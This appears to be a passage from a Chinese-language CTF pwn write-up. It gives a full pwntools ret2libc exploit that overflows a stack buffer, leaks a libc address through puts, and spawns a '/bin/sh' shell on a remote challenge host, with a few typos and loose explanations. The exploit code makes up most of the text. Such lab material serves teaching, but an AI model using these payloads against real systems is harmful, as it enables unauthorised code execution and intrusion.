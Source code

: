 ```python
	#获得system地址
	system_addr=libc.dump("system")+libc_base
	
	#获得/bin/sh地址
	binsh_addr=libc.dump("str_bin_sh")+libc_base
```
(3)构造pyload
```python
payloadpayload='a'*0x48+p64(popedi)+p64(binsh_addr)+p64(system_addr)+'a'*(0xC8-0x48-24)
```
上面的payload相当于
```
	push binsh_addr
  	pop edi
    call system
```
exp:
```python
#coding:utf8
from pwn import *
from LibcSearcher import *

elf=ELF('./pwnh5')

#x86都是靠栈来传递参数的,而x64换了它顺序是rdi,rsi,rdx,rcx,r8,r9,如果多于6个参数才会用栈
readgot=elf.got['read']
putaddr=elf.sym['puts']
mainaddr=0x4006B8

#popedi的地址
popedi=0x400763
#sh=process('./pwnh5')
sh=remote('111.198.29.45',52630)

#这个payload用于泄露read位于libc的地址
#popedi将read的地址加载到edi中，用于传给put输出显示
#mainaddr为覆盖eip，这样我们又可以重新执行main函数了
payload='a'*0x48+p64(popedi)+p64(readgot)+p64(putaddr)+p64(mainaddr)+'a'*(0xC8-0x48-32)
sh.send(payload)

sh.recvuntil('bye~\n')
#注意，这步重要,必须要去掉末尾的\n符号
s=sh.recv().split('\n')[0]
#凑足长度8
for i in range(len(s),8):
	s=s+'\x00'
#得到read的地址
addr=u64(s)
print hex(addr)

#libc数据库查询
obj=LibcSearcher("read",addr)
#得到libc加载地址
libc_base=addr-obj.dump('read')
#获得system地址
system_addr=obj.dump("system")+libc_base
#获得/bin/sh地址
binsh_addr=obj.dump("str_bin_sh")+libc_base

print hex(system_addr)
print hex(binsh_addr)

payload='a'*0x48+p64(popedi)+p64(binsh_addr)+p64(system_addr)+'a'*(0xC8-0x48-24)
sh.send(payload)
```